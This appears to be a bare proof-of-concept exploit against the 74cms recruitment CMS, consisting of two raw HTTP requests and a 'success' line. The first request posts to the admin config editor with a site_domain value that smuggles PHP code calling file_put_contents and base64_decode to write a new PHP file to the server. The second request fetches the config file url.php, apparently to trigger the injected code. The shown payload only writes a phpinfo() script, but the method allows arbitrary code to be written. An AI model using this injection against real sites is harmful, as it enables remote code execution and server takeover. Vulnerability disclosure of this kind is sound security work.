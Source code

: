 ```php
POST /74cms/index.php?m=Admin&c=config&a=edit HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1/74cms/index.php?m=Admin&c=Config&a=index
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 465
Connection: close
Cookie: PHPSESSID=arm0lvlbbfocml5vvac1tf3ph3; think_language=zh-CN; think_template=default

site_name=%E9%AA%91%E5%A3%AB%E4%BA%BA%E6%89%8D%E7%B3%BB%E7%BB%9F&site_domain='%2C+file_put_contents('403.php'%2Cbase64_decode('PD9waHAgcGhwaW5mbygpOz8%2B'))%2C'&site_dir=%2F74cms%2F&top_tel=000-00000000&bootom_tel=000-00000000&contact_email=&address=00%E7%9C%8100%E5%B8%8200%E8%B7%AF00%E5%8F%B70%E5%A4%A7%E5%8E%A600%E6%A5%BC&bottom_other=Copyright+%C2%A9+2019+74cms.com+All+Right+Reserved+&icp=icp000000000&isclose=0&close_reason=&statistics=&logo_home=&logo_other=
```

```php
GET /74cms/Application/Common/Conf/url.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=arm0lvlbbfocml5vvac1tf3ph3; think_language=zh-CN; think_template=default
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0


```



success:

![result](result.png)

